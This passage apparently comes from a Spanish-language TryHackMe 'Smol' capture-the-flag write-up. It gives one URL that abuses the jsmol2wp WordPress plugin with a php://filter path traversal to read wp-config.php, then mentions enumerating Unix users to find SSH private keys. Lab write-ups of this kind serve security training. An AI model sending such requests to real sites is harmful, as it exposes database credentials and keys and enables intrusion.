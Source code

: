 ![](../assets/img/smol-tryhackme-writeup/5.png)

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

También enumeramos los usuarios unix, con la intención de enumerar ficheros relevantes como la clave privada SSH: